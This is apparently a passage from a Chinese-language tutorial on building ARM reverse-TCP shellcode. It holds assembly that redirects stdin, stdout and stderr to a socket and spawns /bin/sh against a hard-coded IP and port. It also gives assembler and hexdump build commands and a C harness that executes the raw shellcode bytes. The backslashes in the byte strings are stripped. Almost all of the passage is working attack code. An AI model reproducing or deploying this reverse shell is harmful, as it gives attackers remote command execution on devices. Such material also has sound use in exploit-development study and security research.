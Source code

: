 ```
    add     r7, #2          
    svc     #1               

/* Duplicate STDIN, STDOUT and STERR */
#no 0x20
    movs     r0, r6         
    eor     r1, r1, r1     
    movs    r7, #63         
    svc     #1              
#no 0x20
    movs     r0, r6           
    add     r1, #1         
    svc    #1       
#no 0x20        
    movs     r0, r6       
    add     r1, #1         
    svc    #1               

/* Execute shell */
    adr     r0, shellcode 
    eor        r2, r2, r2 
    push   `{`r0, r2`}`
    movs   r1, sp
    strb    r2, [r0, #7]  
    mov    r7, #11        
    svc     #1

padpad:
.ascii "xffxffxffxff"   
struct_addr:
.ascii "x02xaa"          
.ascii "x11x5c"          
.ascii "xc0xa8x4ax89"  
shellcode:
.ascii "/bin/shX"
```

4.编译测试

执行命令：armv5l-as -o ipv4.o ipv4.s &amp;&amp; armv5l-ld -N -o ipv4 ipv4.o&amp;&amp;armv5l-objcopy -O binary ipv4 ipv4.bin&amp;&amp;hexdump -v -e ‘““”x” 1/1 “%02x” “”‘ ipv4.bin 打印信息就是shellcode，然后放入下面的数组中，执行armv5l-gcc reversetcp.c -o reversetcp —static编译即可

```
#include&lt;stdio.h&gt;
#include&lt;string.h&gt;

unsigned char sc[] = "x01x30x8fxe2x13xffx2fxe1x40x40x02x30x01x21x52x40x64x27xb5x37x01xdfx06x1cx0bxa1x4ax70x10x22x02x37x01xdfx30x1cx49x40x3fx27x01xdfx30x1cx01x31x01xdfx30x1cx01x31x01xdfx06xa0x52x40x05xb4x69x46xc2x71x0bx27x01xdfxffxffxffxffx02xaax11x5cxc0xa8x4ax89x2fx62x69x6ex2fx73x68x58";
//armv5l-gcc reversetcp.c -o reversetcp --static
void main()
`{`
    printf("Shellcode Length: %dn", strlen(sc));

    int (*ret)() = (int(*)())sc;

    ret();
`}`
```
